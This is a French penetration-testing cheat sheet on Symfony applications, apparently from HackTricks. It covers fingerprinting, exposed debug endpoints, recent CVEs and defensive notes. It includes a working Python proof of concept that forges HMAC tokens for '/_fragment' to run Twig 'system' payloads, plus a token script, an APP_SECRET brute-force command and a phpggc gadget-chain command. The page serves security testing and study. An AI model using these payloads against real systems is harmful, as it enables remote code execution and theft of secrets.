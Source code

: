 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony est l'un des frameworks PHP les plus utilisés et apparaît régulièrement dans les évaluations des cibles d'entreprise, de commerce électronique et de CMS (Drupal, Shopware, Ibexa, OroCRM… tous intègrent des composants Symfony). Cette page collecte des conseils offensifs, des configurations incorrectes courantes et des vulnérabilités récentes que vous devriez avoir sur votre liste de contrôle lorsque vous découvrez une application Symfony.

> Note historique : Une grande partie de l'écosystème utilise encore la branche **5.4 LTS** (EOL **novembre 2025**). Vérifiez toujours la version mineure exacte car de nombreux avis de sécurité de 2023-2025 ne sont corrigés que dans des versions de patch (par exemple, 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* En-têtes de réponse HTTP : `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` ou cookies commençant par `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Les fuites de code source (`composer.json`, `composer.lock`, `/vendor/…`) révèlent souvent la version exacte :
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Routes publiques qui n'existent que sur Symfony :
* `/_profiler`   (Symfony **Profiler** & barre d'outils de débogage)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (pages d'erreur jolies)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (contrôleurs frontaux de développement pré-4.0)
* Wappalyzer, BuiltWith ou listes de mots ffuf/feroxbuster : `symfony.txt` → recherchez `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Fichiers et points de terminaison intéressants
| Chemin | Pourquoi c'est important |
|--------|-------------------------|
| `/.env`, `/.env.local`, `/.env.prod` | Souvent mal déployés → fuites `APP_SECRET`, identifiants DB, SMTP, clés AWS |
| `/.git`, `.svn`, `.hg` | Divulgation de source → identifiants + logique métier |
| `/var/log/*.log`, `/log/dev.log` | Mauvaise configuration de la racine web expose des traces de pile |
| `/_profiler` | Historique complet des requêtes, configuration, conteneur de services, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Point d'entrée utilisé par ESI/HInclude. Abus possible une fois que vous connaissez `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | RCE PHPUnit si accessible (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & parfois fuite des traces d'exception |

---

## Vulnérabilités à fort impact (2023-2025)

### 1. Divulgation de APP_SECRET ➜ RCE via `/_fragment` (alias “secret-fragment”)
* **CVE-2019-18889** à l'origine, mais *apparaît toujours* sur des cibles modernes lorsque le débogage est laissé activé ou que `.env` est exposé.
* Une fois que vous connaissez le `APP_SECRET` de 32 caractères, créez un jeton HMAC et abusez du contrôleur interne `render()` pour exécuter du Twig arbitraire :
```python
# PoC – nécessite le secret
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # RCE dans Twig
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Excellent article et script d'exploitation : blog Ambionics (lié dans les références).

### 2. Détournement de processus Windows – CVE-2024-51736
* Le composant `Process` recherchait le répertoire de travail actuel **avant** `PATH` sur Windows. Un attaquant capable de télécharger `tar.exe`, `cmd.exe`, etc. dans une racine web écrivable et de déclencher `Process` (par exemple, extraction de fichiers, génération de PDF) obtient l'exécution de commandes.
* Corrigé dans 5.4.50, 6.4.14, 7.1.7.

### 3. Fixation de session – CVE-2023-46733
* Le garde d'authentification a réutilisé un ID de session existant après la connexion. Si un attaquant définit le cookie **avant** que la victime ne s'authentifie, il détourne le compte après la connexion.

### 4. XSS dans le sandbox Twig – CVE-2023-46734
* Dans les applications qui exposent des modèles contrôlés par l'utilisateur (CMS admin, constructeur d'e-mails), le filtre `nl2br` pourrait être abusé pour contourner le sandbox et injecter du JS.

### 5. Chaînes de gadgets Symfony 1 (toujours trouvées dans des applications héritées)
* `phpggc symfony/1 system id` produit une charge utile Phar qui déclenche RCE lorsqu'un unserialize() se produit sur des classes telles que `sfNamespacedParameterHolder`. Vérifiez les points de terminaison de téléchargement de fichiers et les wrappers `phar://`.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculer le jeton HMAC pour `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Bruteforce faible `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
Si `bin/console` est accessible via `php-fpm` ou un téléchargement direct en CLI :
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Utilisez des gadgets de désérialisation dans le répertoire de cache ou écrivez un modèle Twig malveillant qui sera exécuté lors de la prochaine requête.

---

## Notes défensives
1. **Ne jamais déployer le débogage** (`APP_ENV=dev`, `APP_DEBUG=1`) en production ; bloquez `/app_dev.php`, `/_profiler`, `/_wdt` dans la configuration du serveur web.
2. Stockez les secrets dans des variables d'environnement ou `vault/secrets.local.php`, *jamais* dans des fichiers accessibles via le document-root.
3. Appliquez la gestion des correctifs – abonnez-vous aux avis de sécurité Symfony et maintenez au moins le niveau de correctif LTS.
4. Si vous exécutez sur Windows, mettez à jour immédiatement pour atténuer CVE-2024-51736 ou ajoutez une défense en profondeur `open_basedir`/`disable_functions`.

---

### Outils offensifs utiles
* **ambionics/symfony-exploits** – RCE de fragment secret, découverte de routes de débogage.
* **phpggc** – Chaînes de gadgets prêtes à l'emploi pour Symfony 1 & 2.
* **sf-encoder** – petit outil pour calculer le HMAC de `_fragment` (implémentation Go).

## Références
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}

